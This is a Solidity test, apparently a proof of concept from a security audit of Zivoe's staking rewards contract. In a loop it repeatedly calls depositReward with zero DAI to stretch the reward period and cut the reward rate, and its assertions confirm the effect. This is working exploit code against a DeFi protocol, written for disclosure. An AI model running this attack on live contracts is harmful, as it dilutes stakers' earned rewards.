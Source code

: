 ```solidity
        // As a reward, 100 DAI is provided.
        depositReward_DAI(address(stZVE), 100 ether);
        
        assertEq(ERC20(DAI).balanceOf(address(stZVE)), 100 ether);
        assertEq(ERC20(DAI).balanceOf(address(sal)), 0);
        assertEq(ERC20(DAI).balanceOf(address(sue)), 0);

        uint start = block.timestamp;
        uint last_attack_time = start;
        hevm.startPrank(address(sid));
        (
            uint256 rewardsDuration,
            ,
            uint256 rewardRate,
            ,
            uint256 rewardPerTokenStored
        ) = stZVE.rewardData(DAI);

        uint rewardPerToken = stZVE.rewardPerToken(DAI);
        console.log("Reward per token %s", rewardPerToken);
        
        assertEq(rewardsDuration, 30 days);
        assertEq(rewardRate, 38580246913580);
        assertEq(rewardPerTokenStored, 0);

        for (uint i = 0; i < 60; i++) {
            last_attack_time = start + i * 12 hours;
            hevm.warp(last_attack_time);
            ZivoeRewards(address(stZVE)).depositReward(DAI, 0);
            rewardPerToken = stZVE.rewardPerToken(DAI);
            (
            uint256 rewardsDuration,
            uint256 periodFinish,
            uint256 rewardRate,
            uint lastUpdateTime,
            uint256 rewardPerTokenStored
        ) = stZVE.rewardData(DAI);
            uint salEarned = stZVE.earned(address(sal), DAI);
            console.log("--- rewardData per token at %s ---", i);
            console.log("rewardPerToken: %s", rewardPerToken);
            console.log("rewardsDuration: %s", rewardsDuration);
            console.log("periodFinish: %s", periodFinish);
            console.log("rewardRate: %s", rewardRate);
            console.log("lastUpdateTime: %s", lastUpdateTime);
            console.log("rewardPerTokenStored: %s", rewardPerTokenStored);
            console.log("salEarned: %s", rewardPerTokenStored);
        }
        hevm.stopPrank();
        (
            uint256 rewardsDurationAfter,
            uint256 periodFinishAfter,
            uint256 rewardRateAfter,
            ,
            uint256 rewardPerTokenStoredAfter
        ) = stZVE.rewardData(DAI);

        assertEq(rewardsDuration, rewardsDurationAfter);
        assertEq(last_attack_time + 30 days, periodFinishAfter);
        assertEq(rewardRateAfter, 14312316021379);
        assertEq(rewardPerTokenStoredAfter, 314512384362580440);

        assert(last_attack_time < start + 30 days);

```